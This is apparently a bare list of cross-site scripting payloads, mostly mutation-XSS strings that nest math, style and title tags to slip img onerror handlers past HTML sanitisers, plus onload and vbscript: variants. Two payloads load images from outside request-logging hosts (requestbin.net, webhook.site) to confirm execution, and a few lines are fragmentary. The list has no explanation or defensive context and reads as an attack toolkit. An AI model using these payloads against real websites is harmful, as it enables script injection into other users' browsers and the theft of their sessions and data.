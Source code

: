 ">a<math>s<xss style=display:block>t<style>X<a title=""</style>a<img src="http://requestbin.net/r/154l6z91/123" onerror=alert()>">s.<a>.


">a<math>a<xss style=display:block>t<style>X<a title=""</style>a<img src='https://webhook.site/830d2611-45c3-4448-9b8d-c80b74811960' onerror=alert()>">.<a>.


">a<math>a<xss style=display:block>t<style>X<a title=""</style>a<img src=x onerror=alert()>">.<a>.

<img onload='alert()'>

var xx = <math style=""><img onload=xxx>


![vbscript:alert()](vbscript:alert())
